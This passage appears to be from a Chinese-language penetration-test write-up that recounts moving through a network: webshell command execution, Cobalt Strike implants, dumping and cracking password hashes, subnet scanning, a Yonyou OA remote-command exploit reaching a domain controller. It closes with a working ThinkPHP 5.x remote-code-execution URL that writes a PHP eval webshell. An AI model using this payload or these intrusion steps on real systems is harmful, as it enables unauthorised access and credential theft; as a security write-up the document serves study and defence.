 访问webshell，成功执行命令：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-971d9b1a62291dc8a4f35c79f6dd4b00979a0bc1.png)

利用webshell上传CS马然后运行上线CS，同时发现其IP为80.1.1.44：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6b68d8354698d9323adc24725d94fa276f642a5e.png)

抓取本地密码，获取到hash值：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0e3111ca5bf89f27c6b7f3362039597826cdb03a.png)

在线解密得到密码admin@123456

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8f73a2974fc6c10bc0c98d28c3dfeb49923e6780.png)

使用CS搭建代理，挂上代理后对C段80.1.1.1/24进行扫描，部分内容如下：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1caecd50dc6905b7d3a43ce8a616d376e439ff6c.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5564fbe61e136fb41a381f4c6b59513528f87d1e.png)

看到这个结果后我头皮发麻，让有选择困难症的我一时无从下手

0x06 80.1.1.36 用友OA远程命令执行
=========================

漏洞地址： <http://80.1.1.36:801/servlet/~ic/bsh.servlet.BshServlet>

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-95c4cda46d550c74dc05d08525700a9c0a5a5cff.png)

利用方式和10.255.200.44一样，写入webshell（过程略）：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9242a2f4238475bddc700ed0a69012b732c408fe.png)

同样的方法上传CS马执行上线，发现为一台DC：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-aae24d7411547d0b82ec9fa03ebbe5e78712f9b8.png)

抓取主机上的密码：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d6ad8d58db536ff41e3d1e47338ae6eeff3247d1.png)

解密得到 密码admin@12345+

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-947f49e568207308fc7b7e04a576fc3fabc8c848.png)

0x07 80.1.1.12 ThinkPHP5.x远程代码执行
================================

熟系的首页，以及醒目的ThinkPHP

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-fafe35c11e13ba4c4a4d2d51c9f39cea5c618f41.png)  
发现其果然存在远程命令执行漏洞，利用远程命令执行漏洞写入webshell：

```php
http://80.1.1.12/?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=echo%20^%3C?php%20@eval($\_REQUEST\[%22cmd%22\])?^%3E%3Eshell.php
```
